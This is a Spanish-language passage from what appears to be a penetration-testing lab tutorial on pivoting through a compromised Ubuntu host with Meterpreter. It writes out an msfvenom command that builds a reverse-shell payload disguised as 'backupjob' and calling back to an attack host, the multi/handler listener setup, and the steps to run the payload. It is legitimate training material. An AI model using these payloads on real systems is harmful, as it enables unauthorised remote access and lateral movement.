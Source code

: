 Ahora consideremos un escenario donde tenemos acceso a nuestro shell Meterpreter en el servidor Ubuntu (el host pivotante) y queremos realizar escaneos de enumeración a través del host pivotante, pero queremos aprovechar las conveniencias que nos brindan las sesiones de Meterpreter. En tales casos, aún podemos crear un pivot con nuestra sesión de Meterpreter sin depender del reenvío de puertos SSH. Podemos crear un shell de Meterpreter para el servidor Ubuntu con el siguiente comando, que devolverá un shell en nuestro host de ataque en el puerto `8080`.

### Creating Payload for Ubuntu Pivot Host

```r
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Antes de copiar el payload, podemos iniciar un [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), también conocido como un Generic Payload Handler.

### Configuring & Starting the multi/handler

```r
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

Podemos copiar el archivo binario `backupjob` al host pivotante Ubuntu `over SSH` y ejecutarlo para obtener una sesión de Meterpreter.

### Executing the Payload on the Pivot Host

```r
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

Debemos asegurarnos de que la sesión de Meterpreter se establezca correctamente al ejecutar el payload.
